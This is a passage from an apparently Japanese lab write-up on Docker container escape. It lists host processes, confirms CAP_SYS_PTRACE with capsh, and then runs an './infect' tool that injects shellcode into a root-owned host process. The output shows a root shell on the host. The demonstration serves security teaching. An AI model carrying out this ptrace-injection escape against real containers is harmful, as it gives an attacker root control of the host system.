 ```
  72999 pts/1    S      0:00 sudo su -
  73001 pts/1    S      0:00 su -
  73002 pts/1    S      0:00 -bash
  74067 pts/1    S      0:00 /root/.pyenv/versions/3.9.16/bin/python3 -m http.server 10080
  74440 pts/1    S+     0:00 make app
  74441 pts/1    Sl+    0:00 docker-compose exec app bash
  74457 pts/1    Ss     0:00 bash
  74464 pts/1    R+     0:00 ps a
```

</div>

　ケイパビリティを確認します。<span class="m-y">「cap_sys_ptrace」が出力に含まれており「CAP_SYS_PTRACE」が追加されています。</span>  

<div class="md-code" style="width:100%">

```
【コンテナ環境】
root@b9ceb8fb7c89:/usr/poc# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

</div>

　このコンテナ環境は「ホスト環境のプロセスにアクセス可能」かつ「ptrace() システムコールが実行可能」です。
　
　では、　プロセス・インジェクション攻撃を実行してみます。
<div class="md-code" style="width:100%">

```
【コンテナ環境】
root@aa6559b6c94d:/usr/poc# ./infect 74067
+ Tracing process 74067
+ Waiting for process...
+ Getting Registers
+ Injecting shell code at 0x7f55f4d42987
+ Setting instruction pointer to 0x7f55f4d42989
+ Run it!

id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

docker --version
Docker version 20.10.23, build 7155243
```
